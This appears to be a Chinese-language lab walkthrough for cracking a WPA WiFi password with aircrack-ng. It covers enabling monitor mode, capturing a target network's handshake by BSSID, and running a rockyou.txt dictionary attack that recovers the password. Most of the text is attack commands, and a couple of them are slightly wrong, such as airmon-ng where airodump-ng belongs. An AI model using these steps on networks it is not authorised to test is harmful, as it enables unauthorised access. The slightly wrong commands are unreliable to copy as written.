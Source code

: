 1.实验前确保有能打开监听模式的网卡
2.使用`sudo airmon-ng`显示无线接口信息

![Image](https://github.com/user-attachments/assets/c68e22e8-9029-4de8-85bf-8d3ec014d9f6)

3.使用`sudo airmon-ng start wlan0` 将名为 wlan0 的无线网卡接口切换到监听模式，以便于后续进行WIFI的扫描

![Image](https://github.com/user-attachments/assets/07ca9368-a597-42d0-bafc-3b41e40d9cec)

4.后续的`airmon-ng`操作都需要root权限，输入`sudo su` 进入到root模式以便于后续操作
5.输入`airmon-ng wlan0mon`监听wlan0mon接口，用来扫描WIFI

![Image](https://github.com/user-attachments/assets/63d05f09-d3bf-4a1c-aa59-6fe36f99834c)

如果已经扫描到已经要破解的目标WIFI，使用Ctrl+C停止，这里已经扫描到了目标WIFI,记录一下bssid和ch的值，后续会用到
6.由于后要利用kali Linux自带的字典进行跑包从而暴力破解WIFI密码，这里我们输入 `cd /usr/share/wordlists/`进入到kali Linux的默认字典目录，然后输入 `airodump-ng -c 1 –bssid 66:9A:0B:A4:A7:18 -w nova wlan0mon`抓取该WIFI的握手包
- `-c 1` 指定要监听的信道号为1
- `-bssid 66:9A:0B:A4:A7:18`用于指定要监控的AP的BSSID
- `-w nova`意味着捕获到的数据将被保存在以 nova 为前缀的文件中

![Image](https://github.com/user-attachments/assets/7b3c5833-c534-4fe4-a919-c0cb4c4340f3)

需要注意，这时需要有一台设备连接此WIFI才能获取到握手包。
这里成功获取到握手包后，使用Ctrl+C停止捕获。
7.输入命令`aircrack-ng -a2 -b 66:9A:0B:A4:A7:18 -w rockyou.txt nova-01.cap `将获取到的握手包文件利用kali Linux自带的字典进行跑包来暴力破解WIFI密码

![Image](https://github.com/user-attachments/assets/675e088f-7fa7-461c-b10c-7c593ef66681)

8.得到跑包结果
如图所示，破解出密码为88888888

![Image](https://github.com/user-attachments/assets/cf5493b9-7895-4dba-be0a-48f3eaa99c46)